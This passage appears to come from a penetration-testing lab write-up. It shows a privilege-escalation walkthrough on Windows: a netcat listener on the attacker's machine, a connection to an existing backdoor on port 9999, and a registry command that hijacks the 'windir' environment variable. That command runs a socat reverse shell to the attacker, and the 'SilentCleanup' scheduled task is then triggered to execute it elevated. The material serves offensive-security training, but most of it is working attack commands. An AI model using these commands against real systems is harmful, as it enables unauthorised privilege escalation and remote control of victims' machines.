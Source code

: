 ```
nc -lvp 4446
```

We will then connect to the backdoor provided on port 9999:&#x20;

**Kali**

```
nc $VICTIM 9999
```

And finally, run the following commands to write our payload to %windir% and then execute the DiskCleanup task (be sure to replace your IP address where needed):

**Victim(cmd)**

```
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:$KALI:4446 EXEC:cmd.exe,pipes &REM " /f

schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

<figure><img src="../../.gitbook/assets/image (19) (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (9).png" alt=""><figcaption></figcaption></figure>

##
